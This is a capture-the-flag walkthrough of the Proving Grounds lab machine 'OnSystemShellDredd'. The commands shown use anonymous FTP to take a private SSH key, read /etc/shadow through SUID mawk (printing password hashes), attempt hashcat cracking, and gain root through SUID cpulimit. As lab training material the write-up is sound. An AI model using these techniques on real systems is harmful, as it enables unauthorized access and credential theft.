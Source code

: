 # OnSystemShellDredd
**Date:** July 25th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/ossd0.png)

<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.208.130`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

An additional all ports scan shows us:

```
PORT      STATE SERVICE VERSION
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

<br>

### FTP Digging

`ftp 192.168.208.130`

```
Connected to 192.168.208.130.
220 (vsFTPd 3.0.3)
Name (192.168.208.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||64972|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||27539|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||42135|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************|  1823       66.86 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (55.34 KiB/s)
```

Logging into the FTP server as anonymous shows us a single hidden directory that looks like a username and inside it we find a private id_rsa key which I download.

<br>

## System Access

I change the permissions on the id_rsa file with `chmod 400 id_rsa`.

And connect over as user **hannah**:

`ssh -i id_rsa hannah@192.168.208.130 -p 61000`

```
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 25 23:03:53 2022 from 192.168.49.208
hannah@ShellDredd:~$ whoami
hannah
hannah@ShellDredd:~$ hostname
ShellDredd
```

<br>

## System Enumeration

I check `sudo -l` and get a message that the sudo command isn't found.

Looking in the hannah home directory shows us our first flag **local.txt**:

`wc -c /home/hannah/local.txt`

```
33 /home/hannah/local.txt
```

We have 2 users on the system with shells:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
hannah:x:1000:1000:hannah,,,:/home/hannah:/bin/bash
```

I look for files with SUID set and find a couple out of the norm:

`find / -perm /4000 2>/dev/null`

```
/usr/bin/mawk
/usr/bin/cpulimit
```

```
-rwsr-sr-x 1 root root 121976 Mar 23  2012 /usr/bin/mawk
-rwsr-sr-x 1 root root 23072 Jun 23  2017 /usr/bin/cpulimit
```

With **mawk** having SUID set we can read files we shouldn't be able to:

`mawk '//' "/etc/shadow"`

```
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFwJ4UCweCXGKSMIO8/qDM6NsiKckV8UZeZefDYw2CL2uAEwawIufKMv/e1Q6YDyTeqp0:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6RmYXyLoxl2q1purtp9d.tpWEJTmYOUJORrve1ohmQjJtNRfzfvcZXyzMLk89Ir/g5X.:18656:0:99999:7:::
```

I know I can use cpulimit to get root but wanted to try and crack these passwords anyways:

`hashcat -m 1800 -w 3 -D 1,2 -O hash.txt rockyou.txt`

But, neither end up cracking.

<br>

## Root

I use our other exploitable SUID file to escalate over to root:

`cpulimit -l 100 -f -- /bin/sh -p`

```
hannah@ShellDredd:/$ cpulimit -l 100 -f -- /bin/sh -p
Process 3828 detected
# whoami
root
# hostname
ShellDredd
```

Note: you can lookup SUID exploits on [**GTFOBins**](https://gtfobins.github.io/gtfobins/cpulimit/#suid)

We find our final flag in the **/root** directory:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/ossd1.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Finding an open FTP port that allowed anonymous login
- On the FTP server a private SSH key was found that allowed us to login to the system
- A couple files with the SUID bit set (mawk and cpulimit) allowed us to do things we shouldn't have been able to, including escalating our privileges to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF

